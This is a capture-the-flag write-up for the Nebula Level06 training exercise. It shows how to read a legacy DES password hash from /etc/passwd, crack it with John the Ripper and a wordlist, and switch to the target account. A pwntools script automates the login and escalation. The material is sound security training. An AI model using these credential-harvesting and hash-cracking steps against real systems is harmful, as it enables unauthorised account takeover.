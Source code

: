 # Level06

#### Description

The **flag06** account credentials came from a legacy unix system.

To do this level, log in as the **level06** account with the password **level06**. Files for this level can be found in /home/flag06.

#### Solution

As the question suggests flag06 account credentials came from a legacy unix system and we know earlier unix used to store account hashes in /etc/passwd file. So, we can simply check that file.

```bash
level06@nebula:/home/flag06$ cat /etc/passwd | grep -iw "flag06"
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

Here we can see flag06 account password hash. As it is legacy old unix system, it may be encrypted in DES or DEScrypt format and we can simply crack it via john or hashcat.

```bash
┌──(ghost㉿kali)-[~/nebula/level05]
└─$ echo 'ueqwOCnSGdsuM' > hash                            
                                                                                                                                                 
┌──(ghost㉿kali)-[~/nebula/level05]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 AVX])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (?)     
1g 0:00:00:00 DONE (2025-09-28 06:22) 100.0g/s 4915Kp/s 4915Kc/s 4915KC/s 123456..rocky06
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We got the plaintext password now and can switch to that flag06 account.

```bash
level06@nebula:/home/flag06$ su flag06
Password: 
sh-4.2$ id
uid=993(flag06) gid=993(flag06) groups=993(flag06)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level06', password='level06')

# Extract flag06 account password hash
out = session.run("cat /etc/passwd | grep -iw 'flag06' | cut -d ':' -f2")
pass_hash = out.recvall().decode()
print(f"Got flag06 account's password hash: {pass_hash}")

# Start a remote shell and switch to user flag06
terminal = session.shell()
terminal.sendline("su flag06")
terminal.recvuntil("Password: ")
terminal.sendline("hello")
terminal.recvuntil("$ ")
terminal.sendline("getflag")
terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>
